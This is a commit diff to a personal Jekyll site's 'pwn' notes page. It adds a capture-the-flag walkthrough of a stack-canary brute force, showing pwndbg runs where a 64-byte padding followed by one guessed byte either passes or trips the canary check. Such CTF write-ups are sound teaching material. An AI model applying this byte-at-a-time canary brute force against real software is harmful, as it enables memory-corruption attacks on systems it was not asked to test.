

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/pwn.md, in a window 1280 px wide and 1400 px high, scrolled down 8950 px. Shown: the top 1374 px of the window at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 9679 px from its top, so only the background shows below that.

Commit message:
Update pwn.md

````diff
--- a/_pages/misc/pwn.md
+++ b/_pages/misc/pwn.md
@@ -397,3 +397,28 @@ Please create 'canary.txt' in this directory with your own debugging canary.
 [~/Desktop]
 $ echo "TEST" > canary.txt
 ```
+
+memcmp() is being used to check if the current canary is the same as the global canary, but since we choose the buffer size, we can brute 1 byte at a time:
+
+```
+pwndbg> run
+Starting program: /home/connor/Desktop/vuln
+Downloading separate debug info for system-supplied DSO at 0xf7fc7000
+[Thread debugging using libthread_db enabled]
+Using host libthread_db library "/usr/lib/libthread_db.so.1".
+How Many Bytes will You Write Into the Buffer?
+> 65
+Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAT
+Ok... Now Where's the Flag?
+[Inferior 1 (process 106998) exited normally]
+pwndbg>
+pwndbg> run
+Starting program: /home/connor/Desktop/vuln
+[Thread debugging using libthread_db enabled]
+Using host libthread_db library "/usr/lib/libthread_db.so.1".
+How Many Bytes will You Write Into the Buffer?
+> 65
+Input> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAX
+***** Stack Smashing Detected ***** : Canary Value Corrupt!
+[Inferior 1 (process 107001) exited normally]
+```
````
